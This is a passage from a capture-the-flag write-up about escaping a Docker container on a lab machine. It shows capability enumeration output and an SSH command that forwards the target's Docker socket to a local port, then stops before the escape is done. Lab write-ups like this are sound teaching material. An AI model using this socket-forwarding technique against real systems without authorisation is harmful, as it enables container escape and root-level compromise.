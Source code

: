 We have some capabilities:

```
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                       
Current capabilities:                                                                                            
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+i
CapInh: 0000003fffffffff
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
```

As the challenge asks for two different root flags and we know that we are inside a container, it is clear that we should exploit that something that will allow us to escape, so I decide to use the docker socket.

There are some one-liner commands that would allow us to mount the filesystem of a container we spin up, however there are two problems with these:

1: We don't have access to the docker binary
2: The version of curl installed is so old that we cannot use ``--unix-socket`` to communicate with the socket.

Because of this, I opted to go with another option: forward the docker socket over SSH.

I found this blog post detailing how to do this: https://blog.ruanbekker.com/blog/2018/04/30/forwarding-the-docker-socket-via-a-ssh-tunnel-to-execute-docker-commands-locally/


The following commands are done on my machine:


I modified the command a little bit to fit my needs:

```
ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -NL localhost:2377:/var/run/docker.sock -p 2222 uzJk6Ry98d8C@10.10.114.8
```

Opening up another terminal, we can verify this worked:

```
kali@kali:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:2377          0.0.0.0:*               LISTEN      4137/ssh            
tcp6       0      0 ::1:2377                :::*                    LISTEN      4137/ssh            
```
